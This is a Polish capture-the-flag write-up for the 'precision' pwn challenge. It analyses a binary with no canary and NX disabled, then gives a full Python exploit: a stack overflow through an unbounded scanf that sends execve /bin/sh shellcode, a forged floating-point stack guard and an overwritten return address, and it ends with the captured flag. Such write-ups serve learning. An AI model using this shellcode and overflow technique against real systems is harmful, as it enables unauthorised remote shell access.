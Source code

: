 ## precision (pwn, 100p, 272 solves)

> nc 54.173.98.115 1259  
> [precision_a8f6f0590c177948fe06c76a1831e650](precision)

Pobieramy udostępnioną binarkę i na początek sprawdzamy jakie utrudnienia przygotowali nam autorzy.

```
# checksec.sh --file precision
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   precision
```
Widać, że nieduże ;).

Krótka analiza w IDA pokazuje nam, że program:
1. Realizuje własną wariację stack guard (dla małego utrudnienia jako liczbę zmiennoprzecinkową).
2. Wypisuje adres bufora oraz za pomocą `scanf` pobiera do niego od nas dane (za pomocą specyfikatora `%s` nieograniczającego wielkość).
3. Sprawdza wartość cookie/canary, wypisuje nasz bufor i wychodzi za pomocą zwykłego `ret`.

Mamy więc do czynienia z prostym buffer overflow z umieszczeniem shellcode'u na stosie (brak NX oraz podany adres bufora).

```python
import socket

s = socket.socket()
s.connect(('54.173.98.115', 1259))

buf_addr = s.recv(17)[8:16]

s.send('31c0b03001c430c050682f2f7368682f62696e89e389c1b0b0c0e804cd80c0e803cd80'.decode('hex').ljust(128, 'a')) # shellcode: execve /bin/sh
s.send('a5315a4755155040'.decode('hex')) # stack guard
s.send('aaaaaaaaaaaa') # padding
s.send(buf_addr.decode('hex')[::-1]) # ret: buffer address
s.send('\n')
print (s.recv(9999))
s.send('cat flag\n')
print (s.recv(9999))
s.close()
```

Oraz wynik:

`flag{1_533_y0u_kn0w_y0ur_w4y_4r0und_4_buff3r}`